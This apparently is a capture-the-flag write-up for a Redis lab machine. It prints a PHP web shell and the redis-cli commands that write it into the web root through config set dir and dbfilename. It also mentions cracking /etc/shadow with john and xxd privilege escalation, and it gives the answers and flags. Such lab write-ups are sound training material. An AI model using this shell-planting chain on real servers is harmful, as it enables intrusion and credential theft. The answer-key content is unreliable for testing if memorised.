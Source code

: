# Res



-------------------------------------------

```
export IP=10.10.196.130
```


1. Scan the machine, how many ports are open?

```
2
```


2. What's is the database management system installed on the server?

```
Redis
```


3. What port is the database management system running on?

```
6379
```

4. What's is the version of management system installed on the server?


```
sudo apt install redis-cli
```


Connect:

```
redis-cli -h 10.10.196.130
```

Run the command:

```
info
```



```
6.0.7
```

5. Compromise the machine and locate user.txt

Prepare a basic PHP shell

```
<?php
	die(system($_GET['c']))
?>
```

Get it in memory of the redis server

```
cat shell.php | redis-cli -h $IP -x set shell
```

Write and dump 

```bash
# Write the file
config set dir /var/www/html
config get dir 
config set dbfilename shell.php
save
```

Use this to get initial access


6. What is the local user account password?

I got root before I solved this

Grab `/etc/shadow` and use `john` to hashcrack

```
beautiful1
```

7. What is root.txt?

xxd privilege escalation

```
thm{xxd_pr1v_escalat1on}
```